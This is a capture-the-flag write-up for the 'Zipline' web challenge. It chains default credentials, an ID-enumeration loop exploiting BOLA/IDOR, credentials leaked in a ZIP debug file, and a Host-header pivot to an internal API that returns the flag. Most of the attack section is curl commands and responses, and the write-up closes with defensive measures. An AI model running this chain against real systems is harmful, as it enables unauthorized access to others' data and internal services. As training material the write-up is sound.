



# Zipline — Webverse CTF Write-up

**Platform:** Webverse CTF  
**Challenge:** Zipline  
**Difficulty:** Medium  
**Category:** Web / API Security  
**Target:** `http://zipline.local/` (`10.100.0.30`)  
**Flag:** `WEBVERSE{z1pl1n3_d0wnl04d_b0l4_p1v0t}`

> **Lab-only notice:** The hostnames, credentials, tokens, and flag in this write-up belong to the intentionally vulnerable Webverse CTF environment. Do not reuse the credentials or techniques against systems without explicit authorization.

---

## 1. Introduction

Zipline simulates a document-exchange portal used by a law firm. A client reports being able to access another party's confidential case files. The objective is to reproduce the exposure and retrieve the challenge flag.

The environment contains three services behind a shared HTTP router:

1. A public-facing case export portal.
2. An internal configuration API, not directly exposed through ordinary public DNS.
3. An HTTP router that selects the backend service according to the request's `Host` header.

The solution chains several weaknesses:

- Default credentials on the public portal.
- Broken Object Level Authorization (BOLA), also known as IDOR, in the export download endpoint.
- Sensitive internal credentials exposed in a ZIP debug artifact.
- Host-header-based virtual-host routing to reach the internal API.
- An insufficiently protected internal configuration endpoint that returns the flag.

## 2. Reconnaissance

Start by checking the public application:

```bash
curl -i http://zipline.local/
```

The server responds with a redirect to `/login`:

```http
HTTP/1.1 302 Found
Location: /login
```

This identifies the application as a login-protected Case Export Portal.

## 3. Step One — Log in with Default Credentials



The challenge points toward default credentials. Try `admin:admin`:

```bash
curl -i -c cookies.txt \
  -X POST \
  -d "username=admin&password=admin" \
  http://zipline.local/login
```

The login succeeds and the application sets a cookie named `zipline_token`. The cookie contains a JWT.

Decoding the JWT payload reveals claims similar to:



```json
{
  "sub": "admin",
  "uid": 1,
  "iat": 1780027224,
  "exp": 1780051524,
  "iss": "zipline-public"
}
```

The important observation is the issuer value:

```json
"iss": "zipline-public"
```

This suggests that the public portal and the internal API may use separate authentication contexts.

## 4. Step Two — Enumerate the Available Exports

With the session cookie, request the export listing:

```bash
curl -b cookies.txt http://zipline.local/api/v1/exports
```

The response shows one export:

```json
{
  "items": [
    {
      "public_id": 3,
      "title": "Client Case Export (Q1 Prep)",
      "created_at": "2026-05-29T03:00:17+00:00"
    }
  ]
}
```

The download endpoint follows this pattern:

```text
GET /api/v1/exports/{id}/download
```

The key question is whether the server checks only that the requester is authenticated, or also verifies that the requester is authorized to access the particular export.

## 5. Step Three — Exploit BOLA / IDOR

The export ID is supplied directly in the URL. Test a wider range of numeric IDs while keeping the authenticated session:

```bash
for id in $(seq 1 2000); do
  code=$(curl -s -o "/tmp/export_${id}.zip" \
    -w "%{http_code}" \
    -b cookies.txt \
    "http://zipline.local/api/v1/exports/${id}/download")

  [ "$code" = "200" ] && echo "[HIT] Export ID: $id"
done
```

The scan identifies two successful IDs:

```text
[HIT] Export ID: 3
[HIT] Export ID: 564
```

The logged-in admin account can see export ID `3` in its listing, but ID `564` also returns a successful download. This indicates that the application authenticates the user but fails to enforce object-level authorization on the requested export.

Download the other export:

```bash
curl -b cookies.txt \
  "http://zipline.local/api/v1/exports/564/download" \
  -o export_564.zip
```

**Finding:** BOLA / IDOR in the export download endpoint. An authenticated user can retrieve an export belonging to another user by changing the numeric object ID.

## 6. Step Four — Inspect the ZIP Debug Artifact

List the archive contents:

```bash
unzip -l export_564.zip
```

The archive contains:

```text
export.json
case_roster.csv
debug_attachment.json
README.txt
```

The `debug_attachment.json` file is particularly interesting. Extract it:

```bash
unzip -p export_564.zip debug_attachment.json
```

It contains internal service details and credentials:

```json
{
  "build": "zipline-exporter/2.4.1",
  "notes": "Temporary debug attachment accidentally bundled in non-prod exports.",
  "internal": {
    "base_url": "http://internal-api.zipline.local",
    "login": "http://internal-api.zipline.local/api/v2/user/login",
    "credentials": {
      "username": "svc-exporter",
      "password": "Spring2026!RotateMe"
    }
  }
}
```

This reveals:

| Item | Value |
|---|---|
| Internal API host | `internal-api.zipline.local` |
| Username | `svc-exporter` |
| Password | `Spring2026!RotateMe` |

The debug attachment was unintentionally included in an export. The BOLA flaw made it possible to obtain another user's archive and, consequently, the internal credentials.

## 7. Step Five — Pivot to the Internal API with the Host Header

The internal hostname is not directly available through ordinary public DNS. However, the HTTP router uses the `Host` header to decide which backend service should receive a request.

Send the request to the target IP while specifying the internal virtual host:

```bash
curl -i \
  -H "Host: internal-api.zipline.local" \
  -H "Content-Type: application/json" \
  -d '{"username":"svc-exporter","password":"Spring2026!RotateMe"}' \
  http://10.100.0.30/api/v2/user/login
```

The internal API returns an access token:

```json
{
  "access_token": "<JWT>",
  "token_type": "bearer"
}
```

Store the returned token in a shell variable:

```bash
TOKEN="<JWT>"
```

Verify the authenticated identity:

```bash
curl \
  -H "Host: internal-api.zipline.local" \
  -H "Authorization: Bearer $TOKEN" \
  http://10.100.0.30/api/v2/user/me
```

The response confirms the account and role:

```json
{
  "ok": true,
  "claims": {
    "username": "svc-exporter",
    "role": "integration"
  }
}
```

The request has successfully reached the internal API and authenticated as the `svc-exporter` integration account.

## 8. Step Six — Retrieve the Flag



The challenge points toward a privileged internal configuration endpoint. Request it using the internal virtual host and the bearer token:

```bash
curl \
  -H "Host: internal-api.zipline.local" \
  -H "Authorization: Bearer $TOKEN" \
  http://10.100.0.30/api/v2/user/config
```

The response exposes the internal configuration, including the flag:

```json
{
  "service": "zipline-internal",
  "env": "staging",
  "secrets": {
    "flag": "WEBVERSE{z1pl1n3_d0wnl04d_b0l4_p1v0t}",
    "export_signing_key": "KMS_DISABLED_DEVKEY",
    "webhook_secret": "whsec_dev_4f91c8a2"
  },
  "internal": {
    "notes": "Do not expose this API publicly. Restricted to internal routing."
  }
}
```

### Flag

```text
WEBVERSE{z1pl1n3_d0wnl04d_b0l4_p1v0t}
```

## 9. The Important Miss — Why the Scan Range Matters

One lesson from this challenge is not to stop enumerating IDs too early.

A scan limited to IDs `1–100` would find the export belonging to the current account, but miss the vulnerable object at ID `564`. Expanding the range to `1–2000` reveals the second export.

For numeric object identifiers, use a reasonable, authorized test range based on the challenge scope. Also pay attention to response differences: an application may return different messages or status codes for nonexistent objects and objects that exist but are inaccessible.

The central lesson is simple:

> When an API accepts an object ID in the URL, test whether authorization is enforced for that specific object—not merely whether the requester is logged in.

## 10. Key Takeaways

### BOLA / IDOR

The export endpoint checked authentication but did not properly verify ownership or access rights for the requested export. This allowed one authenticated account to download another user's data.

**Defensive measures:**

- Enforce object-level authorization on every request.
- Verify that the authenticated principal is permitted to access the requested object.
- Avoid relying on unguessable IDs as an authorization control.
- Add automated authorization tests for cross-user access.

### Sensitive Data in Debug Artifacts

A debug JSON file was accidentally packaged inside a downloadable ZIP archive. It disclosed the internal API hostname and service credentials.

**Defensive measures:**

- Exclude debug and temporary files from production archives.
- Use explicit allowlists when building export archives.
- Scan release artifacts for secrets before deployment.
- Rotate credentials immediately if they are exposed.

### Host-Header-Based Routing

The router selected an internal backend based on the request's `Host` header. Because the externally reachable router accepted the internal virtual-host value, the internal service could be reached through the public-facing IP.

**Defensive measures:**

- Enforce an allowlist of accepted hostnames.
- Restrict internal services at the network layer.
- Use strong service-to-service authentication, such as mutual TLS where appropriate.
- Do not treat an obscure internal hostname as an access-control mechanism.

### Internal Configuration Exposure

The internal configuration endpoint returned sensitive values to the authenticated integration account.

**Defensive measures:**

- Apply least-privilege access controls to service accounts.
- Separate operational configuration from secret material.
- Never return secrets through general-purpose configuration endpoints.
- Audit access to internal APIs and sensitive configuration.

## 11. Attack Chain Summary

```text
Default credentials (admin:admin)
          |
          v
Authenticate to the public portal
          |
          v
Enumerate export IDs
          |
          v
BOLA / IDOR — download export 564
          |
          v
Extract debug_attachment.json
          |
          v
Recover internal API credentials
          |
          v
Set Host: internal-api.zipline.local
          |
          v
Authenticate to the internal API
          |
          v
Request /api/v2/user/config
          |
          v
Retrieve the flag
```

## 12. Conclusion

Zipline is a realistic example of how several ordinary implementation and configuration mistakes can combine into a serious security issue. The challenge does not depend on breaking cryptography or discovering a zero-day. Instead, the attack chain uses default credentials, missing object-level authorization, an accidentally exposed debug artifact, permissive virtual-host routing, and an overly revealing internal endpoint.

The most important lesson is that authentication is not authorization. A user being logged in does not mean they should be able to access every object in an application. Likewise, internal services must be protected by actual access controls—not merely by keeping their hostnames out of public DNS.

**Final result:** The flag was obtained by chaining BOLA/IDOR with sensitive-data exposure and a Host-header routing pivot.
